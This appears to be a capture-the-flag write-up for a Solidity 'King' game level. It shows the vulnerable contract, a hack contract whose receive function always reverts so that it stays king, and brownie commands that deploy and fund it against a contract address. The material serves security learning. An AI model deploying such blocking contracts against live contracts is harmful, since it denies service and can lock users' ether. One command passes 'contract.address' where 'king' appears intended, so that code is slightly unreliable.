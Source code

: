 ## Exercise 9: King Game

King.sol is a simple game where "king" status is awarded to whoever sends a larger amount of ether to the contract than the current balance. When the balance updates, the previous balance is returned to the dethroned previous king. The aim of the challenge is simply to break the game by preventing any other users from becoming the king. This can be done relatively easily by making a contract that sends enough ether to the game to become the new king, but refuses to accept ether in return, thereby blocking the game.

### The vulnerable contract

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}

```


### Hack contract

```javascript

pragma solidity ^0.6.0;

contract KingHack{

    address payable owner;
    uint counter = 0;
    constructor() public {

      owner = msg.sender;
    
    }


    function get_ether() external payable onlyOwner {
        // allow payments to this function one time only
        // by requiring counter to equal 0
        require(counter==0);
        counter+=1;
        
    }

    function send_ether(address contract_address, uint amount) public {
        // send ether to the vulnerable contract
        (bool success, ) = payable(contract_address).call{value:amount}("");
        require(success,"transfer failed");
    }

    receive() external payable{
        // prevent receiving ether into this contract
        // by requiring an impossible condition
        require(false, "NO");
        }

    modifier onlyOwner(){
    require(msg.sender==owner);
    _;
    }

}

```


### Execution

The hack contract has a receive function that wil never execute because it has a `require()` statement that is impossible to satisfy. To get ether into this function, we have a `get_ether()` function that will receive ether one time only (determined using `counter`), and only from the contract owner set in the constructor. This means we can deploy the contract and fund it with a one-off transfer of ether. Then, there is a second function `send_ether` that can be used to transfer the contract balance to the King game. The deployment address for `King.sol` and the transfer amount are function arguments.

We therefore deploy this contract, fund it with some amount of ether that exceeds the current contract balance and send that balance to the king contract. The game is then broken, because if another user sends more ether to `King.sol` triggering its `receive()` function, the transfer of ether back to our contract fails and the transaction reverts.

NB: MUST fund the hack contract with balance greater than the curent balance of King.sol!!
NB: Must not use accounts.transfer() to send ETH to the hack contract - use the get_ether() func instead!
    (receive() is designed to fail!)

```bash

>>> account = accounts.load('main')
>>> king = King.at("0xd410F5Ef077279bd04a03Becd6658e8c14352ef7")
>>> king.balance()
  >>> 10000000000 # current balance
>>> hack = KingHack.deploy({'from':account}) # deploy hack contract
>>> hack.get_ether({'from':account, 'value':1100000000000000}) # fund contract
>>> hack.send_ether(contract.address,hack.balance(),{'from':account}) # send to King.sol
# King.sol now blocked with hack contract as king

```